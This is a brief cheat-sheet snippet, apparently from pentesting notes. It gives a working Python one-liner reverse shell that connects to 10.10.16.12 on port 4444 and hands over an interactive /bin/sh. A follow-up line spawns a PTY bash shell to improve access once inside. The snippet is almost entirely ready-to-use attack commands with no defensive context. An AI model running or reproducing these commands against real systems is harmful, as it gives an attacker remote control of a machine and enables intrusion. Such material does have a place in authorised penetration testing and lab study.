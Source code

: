 

# Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.12",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

# get a better shell once you're in
python -c 'import pty; pty.spawn("/bin/bash")'

